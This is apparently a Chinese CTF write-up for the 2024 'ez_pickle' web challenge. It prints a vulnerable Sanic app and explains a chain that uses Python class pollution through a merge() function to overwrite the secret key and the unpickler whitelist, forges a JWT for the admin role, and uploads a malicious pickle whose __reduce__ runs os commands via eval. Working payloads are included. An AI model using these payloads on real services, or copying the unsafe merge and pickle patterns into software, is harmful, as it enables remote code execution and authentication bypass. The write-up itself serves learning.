







# 强网拟态_2024

### ez_pickle

> 知识点：
>
> 1. pickle反序列化
> 2. python原型链污染
> 3. jwt伪造

题目：

```python
from sanic import Sanic
from sanic.response import json, file as file_, text, redirect
from sanic_cors import CORS
from key import secret_key
import os
import pickle
import time
import jwt
import io
import builtins

app = Sanic("App")
pickle_file = "data.pkl"
my_object = {}
users = []

safe_modules = {
    'math',
    'datetime',
    'json',
    'collections',
}

safe_names = {
    'sqrt', 'pow', 'sin', 'cos', 'tan',
    'date', 'datetime', 'timedelta', 'timezone',
    'loads', 'dumps',
    'namedtuple', 'deque', 'Counter', 'defaultdict'
}


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module in safe_modules and name in safe_names:
            return getattr(builtins, name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))


def restricted_loads(s):
    return RestrictedUnpickler(io.BytesIO(s)).load()


CORS(app, supports_credentials=True, origins=["http://localhost:8000", "http://127.0.0.1:8000"])


class User:
    def __init__(self, username, password):
        self.username = username
        self.password = password


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


def token_required(func):
    async def wrapper(request, *args, **kwargs):
        token = request.cookies.get("token")
        if not token:
            return redirect('/login')
        try:
            result = jwt.decode(token, str(secret_key), algorithms=['HS256'], options={"verify_signature": True})
        except jwt.ExpiredSignatureError:
            return json({"status": "fail", "message": "Token expired"}, status=401)
        except jwt.InvalidTokenError:
            return json({"status": "fail", "message": "Invalid token"}, status=401)
        print(result)
        if result["role"] != "admin":
            return json({"status": "fail", "message": "Permission Denied"}, status=401)
        return await func(request, *args, **kwargs)

    return wrapper


@app.route('/', methods=["GET"])
def file_reader(request):
    file = "app.py"
    with open(file, 'r') as f:
        content = f.read()
    return text(content)


@app.route('/upload', methods=["GET", "POST"])
@token_required
async def upload(request):
    if request.method == "GET":
        return await file_('templates/upload.html')
    if not request.files:
        return text("No file provided", status=400)

    file = request.files.get('file')
    file_object = file[0] if isinstance(file, list) else file
    try:
        new_data = restricted_loads(file_object.body)
        try:
            my_object.update(new_data)
        except:
            return json({"status": "success", "message": "Pickle object loaded but not updated"})
        with open(pickle_file, "wb") as f:
            pickle.dump(my_object, f)

        return json({"status": "success", "message": "Pickle object updated"})
    except pickle.UnpicklingError:
        return text("Dangerous pickle file", status=400)


@app.route('/register', methods=['GET', 'POST'])
async def register(request):
    if request.method == 'GET':
        return await file_('templates/register.html')
    if request.json:
        NewUser = User("username", "password")
        merge(request.json, NewUser)
        users.append(NewUser)
    else:
        return json({"status": "fail", "message": "Invalid request"}, status=400)
    return json({"status": "success", "message": "Register Success!", "redirect": "/login"})


@app.route('/login', methods=['GET', 'POST'])
async def login(request):
    if request.method == 'GET':
        return await file_('templates/login.html')
    if request.json:
        username = request.json.get("username")
        password = request.json.get("password")
        if not username or not password:
            return json({"status": "fail", "message": "Username or password missing"}, status=400)
        user = next((u for u in users if u.username == username), None)
        if user:
            if user.password == password:
                data = {"user": username, "role": "guest"}
                data['exp'] = int(time.time()) + 60 * 5
                token = jwt.encode(data, str(secret_key), algorithm='HS256')
                response = json({"status": "success", "redirect": "/upload"})
                response.cookies["token"] = token
                response.headers['Access-Control-Allow-Origin'] = request.headers.get('origin')
                return response
            else:
                return json({"status": "fail", "message": "Invalid password"}, status=400)
        else:
            return json({"status": "fail", "message": "User not found"}, status=404)
    return json({"status": "fail", "message": "Invalid request"}, status=400)


if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8000)
```

审一下代码

我们可以看到RestrictedUnpickler类，存在pickle反序列化

```
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module in safe_modules and name in safe_names:
            return getattr(builtins, name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))
```

但是这里设置了白名单

```
safe_modules = {
    'math',
    'datetime',
    'json',
    'collections',
}

safe_names = {
    'sqrt', 'pow', 'sin', 'cos', 'tan',
    'date', 'datetime', 'timedelta', 'timezone',
    'loads', 'dumps',
    'namedtuple', 'deque', 'Counter', 'defaultdict'
}
```

没有什么我们能利用的方法，这里不太好直接下手

我们接着我往下看

看到merge方法说明可能存在原型链污染

```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

我们看看哪里调用了这个方法

register路由中会使用merge方法将用户名和密码数据合并到`User` 对象中            

```python
@app.route('/register', methods=['GET', 'POST'])
async def register(request):
    if request.method == 'GET':
        return await file_('templates/register.html')
    if request.json:
        NewUser = User("username", "password")
        merge(request.json, NewUser)
        users.append(NewUser)
    else:
        return json({"status": "fail", "message": "Invalid request"}, status=400)
    return json({"status": "success", "message": "Register Success!", "redirect": "/login"})
```

也就是说我们可以利用这个进行python原型链的污染

接着我们看login路由

```python
@app.route('/login', methods=['GET', 'POST'])
async def login(request):
    if request.method == 'GET':
        return await file_('templates/login.html')
    if request.json:
        username = request.json.get("username")
        password = request.json.get("password")
        if not username or not password:
            return json({"status": "fail", "message": "Username or password missing"}, status=400)
        user = next((u for u in users if u.username == username), None)
        if user:
            if user.password == password:
                data = {"user": username, "role": "guest"}
                data['exp'] = int(time.time()) + 60 * 5
                token = jwt.encode(data, str(secret_key), algorithm='HS256')
                response = json({"status": "success", "redirect": "/upload"})
                response.cookies["token"] = token
                response.headers['Access-Control-Allow-Origin'] = request.headers.get('origin')
                return response
            else:
                return json({"status": "fail", "message": "Invalid password"}, status=400)
        else:
            return json({"status": "fail", "message": "User not found"}, status=404)
    return json({"status": "fail", "message": "Invalid request"}, status=400)
```

在login路由中如果登录成功会生成一个token，但是这个token的组成是这样的

```
data = {"user": username, "role": "guest"}
```

role的值为guest

但是在upload路由，他会调用token_required对token进行检验

```python
def token_required(func):
    async def wrapper(request, *args, **kwargs):
        token = request.cookies.get("token")
        if not token:
            return redirect('/login')
        try:
            result = jwt.decode(token, str(secret_key), algorithms=['HS256'], options={"verify_signature": True})
        except jwt.ExpiredSignatureError:
            return json({"status": "fail", "message": "Token expired"}, status=401)
        except jwt.InvalidTokenError:
            return json({"status": "fail", "message": "Invalid token"}, status=401)
        print(result)
        if result["role"] != "admin":
            return json({"status": "fail", "message": "Permission Denied"}, status=401)
        return await func(request, *args, **kwargs)

    return wrapper
```

如果role不等于admin时就会显示

```
return json({"status": "fail", "message": "Permission Denied"}, status=401)
```

这就需要我们进行token伪造了，要将role的值改为admin，注意这个token是有时效性的

```
data['exp'] = int(time.time()) + 60 * 5
```


接下来进行复现

首先进行原型链污染，我们要污染的对象是secret_key , safe_modules, safe_names，同时进行用户的注册

payload:

```
{"username":"xrnt","password":"123456", "__init__" : {"__globals__" : {"safe_modules":["builtins"],"safe_names":["eval"],"secret_key":"123456"}}}
```



显示注册成功，我接下来我们在login路由处登录拿token



为了要访问upload路由我们进行token的伪造 [jwt.io](jwt.io)



拿到token之后我们就可以访问upload上传pickle文件进行反序列化了，由于没有前端我们要自己构造一个文件上传的请求

```
<!DOCTYPE html>
<html>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
<body>
    <form action="http://127.0.0.1:8000/upload" method="post" enctype="multipart/form-data">
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
    </form>
</body>
    </html>

```

恶意类

```python
import pickle
import base64
class A(object):
    def __reduce__(self):
        return (eval, ("__import__('os').popen('calc').read()",))   
a = A()
with open("./test.pickle", "wb") as f:
    pickle.dump(a, f)
```

抓包，传入token，成功执行



补充一下

我们怎么知道我们要污染的白名单的safe_modules和safe_names是啥呢？



我们可以在find_class里面加两个print打印一下

如图



我们回去看终端



拿到要污染的safe_modules和safe_names

payload修改为

```
{"username":"xrnt","password":"123456", "__init__" : {"__globals__" : {"safe_modules":["nt"],"safe_names":["system"],"secret_key":"123456"}}}
```

接着重新进行pickle反序列化即可